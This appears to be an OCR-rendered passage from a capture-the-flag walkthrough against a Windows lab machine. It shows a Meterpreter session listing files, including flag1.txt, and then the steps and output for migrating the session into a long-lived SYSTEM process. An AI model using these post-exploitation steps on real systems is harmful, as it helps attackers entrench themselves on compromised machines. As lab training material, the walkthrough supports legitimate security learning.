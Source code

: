 ```js
wx                           00
040777/rwxrwxr  4096   dir   2025-08-06 10:24:39 +01  System Volume Informatio
wx                           00                       n
040555/r-xr-xr  4096   dir   2018-12-13 03:13:28 +00  Users
-x                           00
040777/rwxrwxr  16384  dir   2025-08-06 10:00:04 +01  Windows
wx                           00
100666/rw-rw-r  24     fil   2019-03-17 19:27:21 +00  flag1.txt
w-                           00
000000/-------  0      fif   1970-01-01 01:00:00 +01  hiberfil.sys
--                           00
000000/-------  0      fif   1970-01-01 01:00:00 +01  pagefile.sys
--                           00
meterpreter > 
```

## After Gaining Meterpreter Shell, I Will Move My Process ID to Another One with a Longer Lifetime

1. >ps
2. Choose Process Id
3. >migrate <Process Id>

```js
meterpreter > ps

Process List
============

 PID   PPID  Name         Arch  Session  User               Path
 ---   ----  ----         ----  -------  ----               ----
 0     0     [System Pro
             cess]
 4     0     System       x64   0
 416   4     smss.exe     x64   0        NT AUTHORITY\SYST  \SystemRoot\System
                                         EM                 32\smss.exe
 472   684   svchost.exe  x64   0        NT AUTHORITY\SYST
                                         EM
 544   492   csrss.exe    x64   0        NT AUTHORITY\SYST  C:\Windows\system3
                                         EM                 2\csrss.exe
 564   684   svchost.exe  x64   0        NT AUTHORITY\SYST
                                         EM
 592   492   wininit.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\system3
  ...........................................................................
             er.exe                      EM
 3036  752   powershell.  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
             exe                         EM                 2\WindowsPowerShel
                                                            l\v1.0\powershell.
                                                            exe

meterpreter > migrate 592
[*] Migrating from 2772 to 592...
[*] Migration completed successfully.
meterpreter >
```

